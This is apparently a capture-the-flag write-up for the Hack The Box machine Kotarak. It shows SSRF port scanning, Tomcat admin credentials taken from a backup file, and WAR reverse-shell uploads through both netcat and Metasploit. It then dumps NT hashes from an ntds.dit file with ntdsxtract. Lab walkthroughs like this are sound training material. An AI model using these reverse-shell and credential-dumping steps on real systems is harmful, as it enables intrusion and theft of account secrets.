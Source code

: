 ```yaml
---
layout: post
title: Kotarak(HTB)
categories:
  - Writeup
---
```


<br>OS linux
<br>IP: 10.10.10.55


**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -A 10.10.10.55</p>

<p>Starting Nmap 7.50 ( https://nmap.org ) at 2018-03-10 02:58 EST
<br>Warning: 10.10.10.55 giving up on port because retransmission cap hit (6).
<br>Nmap scan report for 10.10.10.55
<br>Host is up (0.17s latency).
<br>Not shown: 65531 closed ports
<br>PORT      STATE SERVICE VERSION
<br><font color="BB69EC">22/tcp</font>    open  <font color="53E100">ssh</font>     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
<br><font color="BB69EC">8009/tcp</font>  open  <font color="53E100">ajp13</font>   Apache Jserv (Protocol v1.3)
<br><font color="BB69EC">8080/tcp</font>  open  <font color="53E100">http</font>    Apache Tomcat 8.5.5
<br><font color="BB69EC">60000/tcp</font> open  <font color="53E100">http</font>    Apache httpd 2.4.18 ((Ubuntu))
<br>Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel</p>

<p>Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 3859.03 seconds</p>

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>

</div>
</font>

<br>**Web**:-
<br>**PORT**:- 8080

![1](https://teckk2.github.io/assets/images/Kotarak/1.JPG)
<br>Tomca 8.5.5 is running
![2](https://teckk2.github.io/assets/images/Kotarak/2.JPG)
<br>To access it we need a valid password, let's find it.

<br>**Port**:- 60000
![3](https://teckk2.github.io/assets/images/Kotarak/3.JPG)
<br>On this port a private web service is running which access the file from internal system, let's enumerate it further
![4](https://teckk2.github.io/assets/images/Kotarak/4.JPG)
![5](https://teckk2.github.io/assets/images/Kotarak/5.JPG)
<br>There is no ouput, and the server is running a url.php and we also need to specify a path which Maybe running in some internal port,So we need to find the correct internal port first.
<br>**for i in $(seq 1 60000); do echo $i; curl -X GET http://10.10.10.55:60000/url.php?path=http://localhost:$i/ 2> /dev/null | tr -d "\n"; done**
![6](https://teckk2.github.io/assets/images/Kotarak/6.JPG)
<br>Thanks my friend [**Zc00l**](https://www.hackthebox.eu/profile/3564) for helping me in the bash command above, this will ping all the internal port 1 by 1 and if it get's any response it will show it to us in the output.
![7](https://teckk2.github.io/assets/images/Kotarak/7.JPG)
<br>On internal port **888** we got some response which is is refering to a doc file named backup, let's try to read it
![8](https://teckk2.github.io/assets/images/Kotarak/8.JPG)
![9](https://teckk2.github.io/assets/images/Kotarak/9.JPG)
<br>And we got the admin password to loggin to Tomcat server
<br>username="**admin**" password="**3@g01PdhB!**"
![10](https://teckk2.github.io/assets/images/Kotarak/10.JPG)

<br>**Shell**
<br>**First Method**-(NC)
<br>First generate a java payload for reverse shell with .war extension
![11](https://teckk2.github.io/assets/images/Kotarak/11.JPG)
<br>Now from tomcat webpage, browse the file and upload it,
![12](https://teckk2.github.io/assets/images/Kotarak/12.JPG)
![13](https://teckk2.github.io/assets/images/Kotarak/13.JPG)
<br>Now steup the listner and then click the file, or just open it on another browser and we will get the reverse shell

<font size="1">
<div style="height:100px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nc -nlvp 4455
<br>listening on [any] 4455 ...
<br>connect to [10.10.*.*] from (UNKNOWN) [10.10.10.55] 51012
<br>id
<br>uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
<br><font color="ffff00">python -c 'import pty;pty.spawn("/bin/bash")'</font>
<br>tomcat@kotarak-dmz:/$ </p>

</div>
</font>

<br>**Second Method**-(Meterpreter)

<font size="1">
<div style="height:600px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p>msf > use exploit/multi/http/tomcat_mgr_upload
<br>msf exploit(<font color="red">tomcat_mgr_upload</font>) > set HttpPassword 3@g01PdhB!
<br>HttpPassword => 3@g01PdhB!
<br>msf exploit(<font color="red">tomcat_mgr_upload</font>) > set HttpUsername admin
<br>HttpUsername => admin
<br>msf exploit(<font color="red">tomcat_mgr_upload</font>) > set RHOST 10.10.10.55
<br>RHOST => 10.10.10.55
<br>msf exploit(<font color="red">tomcat_mgr_upload</font>) > set RPORT 8080
<br>RPORT => 8080
<br>msf exploit(<font color="red">tomcat_mgr_upload</font>) > set payload java/meterpreter/reverse_tcp 
<br>payload => java/meterpreter/reverse_tcp
<br>msf exploit(<font color="red">tomcat_mgr_upload</font>) > set LHOST 10.10.*.*
<br>LHOST => 10.10.14.10
<br>msf exploit(<font color="red">tomcat_mgr_upload</font>) > set LPORT 444
<br>LPORT => 444
<br>msf exploit(<font color="red">tomcat_mgr_upload</font>) > exploit</p>

<p><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.10.*.*:444 
<br><font color="RoyalBlue">[*]</font> Retrieving session ID and CSRF token...
<br><font color="RoyalBlue">[*]</font> Uploading and deploying SpSZIX2EJFTDocUB04tgi...
<br><font color="RoyalBlue">[*]</font> Executing SpSZIX2EJFTDocUB04tgi...
<br><font color="RoyalBlue">[*]</font> Undeploying SpSZIX2EJFTDocUB04tgi ...
<br><font color="RoyalBlue">[*]</font> Sending stage (49645 bytes) to 10.10.10.55
<br><font color="RoyalBlue">[*]</font> Meterpreter session 1 opened (10.10.*.*:444 -> 10.10.10.55:33730) at 2018-03-10 06:27:46 -0500</p>

<p>meterpreter > getuid 
<br>Server username: tomcat
<br>meterpreter >
<br>...
<br>....
<br>.....
<br>meterpreter > pwd
<br>/home/tomcat/to_archive/pentest_data
<br>meterpreter > ls -la
<br>Listing: /home/tomcat/to_archive/pentest_data
<br>=============================================</p>

<p>Mode&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Size&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Type&nbsp;&nbsp;Last modified&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Name
<br>----&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;----&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;----&nbsp;&nbsp;-------------&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;----
<br>100666/rw-rw-rw-&nbsp;&nbsp;16793600&nbsp;&nbsp;fil&nbsp;&nbsp;&nbsp;2017-07-21 12:16:23 -0400&nbsp;&nbsp;20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
<br>100666/rw-rw-rw-&nbsp;&nbsp;12189696&nbsp;&nbsp;fil&nbsp;&nbsp;&nbsp;2017-07-21 12:16:45 -0400  20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin</p>

<p>meterpreter > <font color="ffff00">download 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit</font>
<br><font color="RoyalBlue">[*]</font> Downloading: 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit -> <br>20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
<br><font color="RoyalBlue">[*]</font> Downloaded 4.00 KiB of 16.02 MiB (0.02%): 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit -> <br>20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
<br><font color="RoyalBlue">[*]</font> Downloaded 8.00 KiB of 16.02 MiB (0.05%): 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit -> <br>20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
<br><font color="RoyalBlue">[*]</font> Downloaded 12.00 KiB of 16.02 MiB (0.07%): 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit -> <br>20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
<br><font color="RoyalBlue">[*]</font> Downloaded 16.00 KiB of 16.02 MiB (0.1%): 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit -> <br>20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
<br>....
<br>......
<br>........
<br><font color="RoyalBlue">[*]</font> Downloaded 16.00 MiB of 16.02 MiB (99.9%): 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit -> <br>20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
<br><font color="RoyalBlue">[*]</font> Downloaded 16.00 MiB of 16.02 MiB (99.93%): 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit -> <br>20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
<br><font color="RoyalBlue">[*]</font> Downloaded 16.01 MiB of 16.02 MiB (99.95%): 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit -> <br>20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
<br><font color="RoyalBlue">[*]</font> Downloaded 16.01 MiB of 16.02 MiB (99.98%): 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit -> <br>20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
<br><font color="RoyalBlue">[*]</font> Downloaded 16.02 MiB of 16.02 MiB (100.0%): 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit -> <br>20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
<br><font color="RoyalBlue">[*]</font> download   : 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit -> <br>20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
<br>meterpreter >
<br>meterpreter >
<br>meterpreter > <font color="ffff00">download 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin</font>
<br><font color="RoyalBlue">[*]</font> Downloading: 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin -> <br>20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
<br><font color="RoyalBlue">[*]</font> Downloaded 4.00 KiB of 11.62 MiB (0.03%): 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin -> <br>20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
<br><font color="RoyalBlue">[*]</font> Downloaded 8.00 KiB of 11.62 MiB (0.07%): 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin -> <br>20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
<br><font color="RoyalBlue">[*]</font> Downloaded 12.00 KiB of 11.62 MiB (0.1%): 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin -> <br>20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
<br><font color="RoyalBlue">[*]</font> Downloaded 16.00 KiB of 11.62 MiB (0.13%): 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin -> <br>20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
<br><font color="RoyalBlue">[*]</font> Downloaded 20.00 KiB of 11.62 MiB (0.17%): 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin -> <br>20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
<br>....
<br>......
<br>........
<br><font color="RoyalBlue">[*]</font> Downloaded 11.61 MiB of 11.62 MiB (99.87%): 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin -> <br>20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
<br><font color="RoyalBlue">[*]</font> Downloaded 11.61 MiB of 11.62 MiB (99.9%): 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin -> <br>20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
<br><font color="RoyalBlue">[*]</font> Downloaded 11.62 MiB of 11.62 MiB (99.93%): 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin -> <br>20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
<br><font color="RoyalBlue">[*]</font> Downloaded 11.62 MiB of 11.62 MiB (99.97%): 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin -> <br>20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
<br><font color="RoyalBlue">[*]</font> Downloaded 11.62 MiB of 11.62 MiB (100.0%): 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin -> <br>20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
<br><font color="RoyalBlue">[*]</font> download   : 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin -> <br>20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
<br>meterpreter > </p>

</div>
</font>

<br>We don't have user access, so from **/home/tomcat/to archive/pentest data** I downloaded both the files which was .dit and .bin.
<br>The ntds.dit file is the heart of Active Directory including user accounts. Active Directory's database engine is the Extensible Storage Engine ( ESE ) which is based on the Jet database used by Exchange 5.5 and WINS.
<br>So now from these files we can extract the password hash of users, but before that we need to download few tools
<br>Dowload [libesedb](https://github.com/libyal/libesedb/releases), [ntdsxtract](https://github.com/csababarta/ntdsxtract) and install it.
![14](https://teckk2.github.io/assets/images/Kotarak/14.JPG)
![15](https://teckk2.github.io/assets/images/Kotarak/15.JPG)
![16](https://teckk2.github.io/assets/images/Kotarak/16.JPG)
![17](https://teckk2.github.io/assets/images/Kotarak/17.JPG)

<br>Now extarct all the files which is inside .dit
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop/Kotarak</font># esedbexport -m tables 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
<br>esedbexport 20170121</p>

<p>Opening file.
<br>Exporting table 1 (MSysObjects) out of 12.
<br>Exporting table 2 (MSysObjectsShadow) out of 12.
<br>Exporting table 3 (MSysUnicodeFixupVer2) out of 12.
<br>Exporting table 4 (datatable) out of 12.
<br>Exporting table 5 (hiddentable) out of 12.
<br>Exporting table 6 (link_table) out of 12.
<br>Exporting table 7 (sdpropcounttable) out of 12.
<br>Exporting table 8 (sdproptable) out of 12.
<br>Exporting table 9 (sd_table) out of 12.
<br>Exporting table 10 (MSysDefrag2) out of 12.
<br>Exporting table 11 (quota_table) out of 12.
<br>Exporting table 12 (quota_rebuild_progress_table) out of 12.
<br>Export completed.
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop/Kotarak</font># cd 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit.export/
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop/Kotarak/20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit.export</font># ls -la
<br>total 11292
<br>drwxr-xr-x 2 root root&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;4096 Mar 10 08:44 .
<br>drwxr-xr-x 3 root root&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;4096 Mar 10 08:44 ..
<br>-rw-r--r-- 1 root root&nbsp;11156264 Mar 10 08:44 datatable.3
<br>-rw-r--r-- 1 root root&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;695 Mar 10 08:44 hiddentable.4
<br>-rw-r--r-- 1 root root&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;6885 Mar 10 08:44 link_table.5
<br>-rw-r--r-- 1 root root&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;306 Mar 10 08:44 MSysDefrag2.9
<br>-rw-r--r-- 1 root root&nbsp;&nbsp;&nbsp;&nbsp;76277 Mar 10 08:44 MSysObjects.0
<br>-rw-r--r-- 1 root root&nbsp;&nbsp;&nbsp;&nbsp;76277 Mar 10 08:44 MSysObjectsShadow.1
<br>-rw-r--r-- 1 root root&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;103 Mar 10 08:44 MSysUnicodeFixupVer2.2
<br>-rw-r--r-- 1 root root&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;80 Mar 10 08:44 quota_rebuild_progress_table.11
<br>-rw-r--r-- 1 root root&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;967 Mar 10 08:44 quota_table.10
<br>-rw-r--r-- 1 root root&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;14 Mar 10 08:44 sdpropcounttable.6
<br>-rw-r--r-- 1 root root&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;96 Mar 10 08:44 sdproptable.7
<br>-rw-r--r-- 1 root root&nbsp;&nbsp;&nbsp;200728 Mar 10 08:44 sd_table.8
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop/Kotarak/20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit.export</font># </p>

</div>
</font>

<br>Now with the ntdsxtract we can retrive the hash, for which we have to specify **datatable.3**, **link_table.5**, **089134.bin**

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Downloads/ntdsxtract-master</font># ./dsusers.py /root/Desktop/Kotarak/20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit.export/datatable.3 /root/Desktop/Kotarak/20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit.export/link_table.5 /root/Desktop/Kotarak/hashdumpwork --syshive /root/Desktop/Kotarak/20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin --passwordhashes --lmoutfile /root/Desktop/Kotarak/lm-out.txt --ntoutfile /root/Desktop/Kotarak/nt-out.txt --pwdformat john</p>

<p>[+] Started at: Sat, 10 Mar 2018 13:58:06 UTC
<br>[+] Started with options:
<br>&nbsp;[-] Extracting password hashes
<br>&nbsp;[-] LM hash output filename: /root/Desktop/Kotarak/lm-out.txt
<br>&nbsp;[-] NT hash output filename: /root/Desktop/Kotarak/nt-out.txt
<br>&nbsp;[-] Hash output format: john
<br>The directory (/root/Desktop/Kotarak/hashdumpwork) specified does not exists!
<br>Would you like to create it? [Y/N] Y</p>

<p>[+] Initialising engine...
<br>[+] Loading saved map files (Stage 1)...
<br>[!] Warning: Opening saved maps failed: [Errno 2] No such file or directory: '/root/Desktop/Kotarak/hashdumpwork/offlid.map'
<br>[+] Rebuilding maps...
<br>[+] Scanning database - 100% -> 3464 records processed
<br>[+] Sanity checks...
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Schema record id: 1811
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Schema type id: 10
<br>[+] Extracting schema information - 100% -> 1549 records processed
<br>[+] Loading saved map files (Stage 2)...
<br>[!] Warning: Opening saved maps failed: [Errno 2] No such file or directory: '/root/Desktop/Kotarak/hashdumpwork/links.map'
<br>[+] Rebuilding maps...
<br>[+] Extracting object links...</p>

<p>List of users:
<br>==============
<br>Record ID:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;3562
<br>User name:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<font color="ffff00">Administrator</font>
<br>User principal name:  
<br>SAM Account name:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Administrator
<br>SAM Account type:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;SAM_NORMAL_USER_ACCOUNT
<br>GUID:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;5f9433a8-7363-4f5e-8d3c-4a4dacca157c
<br>SID:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;S-1-5-21-1036816736-4081296861-1938768537-500
<br>When created:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;2016-07-19 23:33:08+00:00
<br>When changed:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;2017-07-21 14:39:07+00:00
<br>Account expires:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Never
<br>Password last set:&nbsp;&nbsp;&nbsp;&nbsp;2017-07-21 14:39:07.354826+00:00
<br>Last logon:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;2017-07-21 14:48:56.134512+00:00
<br>Last logon timestamp:&nbsp;2017-07-21 13:52:48.669583+00:00
<br>Bad password time&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;2017-07-21 13:52:19.684732+00:00
<br>Logon count:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;63
<br>Bad password count:&nbsp;&nbsp;&nbsp;0
<br>Dial-In access perm:&nbsp;&nbsp;Controlled by policy
<br>User Account Control:
<br>&nbsp;NORMAL_ACCOUNT
<br>Ancestors:
<br>&nbsp;$ROOT_OBJECT$, local, mrb3n, Users, Administrator
<br>Password hashes:
<br>&nbsp;<font color="ffff00">Administrator:$NT$e64fe0f24ba2489c05e64354d74ebd11</font>:S-1-5-21-1036816736-4081296861-1938768537-500::</p>

<p>Record ID:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;3563
<br>User name:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Guest
<br>User principal name:  
<br>SAM Account name:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Guest
<br>SAM Account type:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;SAM_NORMAL_USER_ACCOUNT
<br>GUID:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;2bf50d7e-79e6-4aab-a81c-157e7a1b6f44
<br>SID:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;S-1-5-21-1036816736-4081296861-1938768537-501
<br>When created:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;2016-07-19 23:33:08+00:00
<br>When changed:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;2016-07-19 23:33:08+00:00
<br>Account expires:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Never
<br>Password last set:&nbsp;&nbsp;&nbsp;&nbsp;Never
<br>Last logon:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Never
<br>Last logon timestamp:&nbsp;Never
<br>Bad password time&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;2016-11-25 22:46:55.531557+00:00
<br>Logon count:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0
<br>Bad password count:&nbsp;&nbsp;&nbsp;1
<br>Dial-In access perm:&nbsp;&nbsp;Controlled by policy
<br>User Account Control:
<br>&nbsp;ACCOUNTDISABLE
<br>&nbsp;PWD_NOTREQD
<br>&nbsp;NORMAL_ACCOUNT
<br>&nbsp;DONT_EXPIRE_PASSWORD
<br>Ancestors:
<br>&nbsp;$ROOT_OBJECT$, local, mrb3n, Users, Guest
<br>Password hashes:</p>

<p>Record ID:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;3609
<br>User name:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;krbtgt
<br>User principal name:  
<br>SAM Account name:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;krbtgt
<br>SAM Account type:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;SAM_NORMAL_USER_ACCOUNT
<br>GUID:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ce21ca0e-4f4d-49c9-9942-40b0d6ae913d
<br>SID:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;S-1-5-21-1036816736-4081296861-1938768537-502
<br>When created:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;2016-07-19 23:34:47+00:00
<br>When changed:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;2017-07-21 13:57:55+00:00
<br>Account expires:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Never
<br>Password last set:&nbsp;&nbsp;&nbsp;&nbsp;2017-07-21 13:57:55.522122+00:00
<br>Last logon:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Never
<br>Last logon timestamp:&nbsp;Never
<br>Bad password time&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Never
<br>Logon count:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0
<br>Bad password count:&nbsp;&nbsp;&nbsp;0
<br>Dial-In access perm:&nbsp;&nbsp;Controlled by policy
<br>User Account Control:
<br>&nbsp;ACCOUNTDISABLE
<br>&nbsp;NORMAL_ACCOUNT
<br>Ancestors:
<br>&nbsp;$ROOT_OBJECT$, local, mrb3n, Users, krbtgt
<br>Password hashes:
<br>&nbsp;krbtgt:$NT$ca1ccefcb525db49828fbb9d68298eee:S-1-5-21-1036816736-4081296861-1938768537-502::</p>

<p>Record ID:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;3776
<br>User name:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<font color="ffff00">atanas</font>
<br>User principal name:  
<br>SAM Account name:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;atanas
<br>SAM Account type:&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;SAM_NORMAL_USER_ACCOUNT
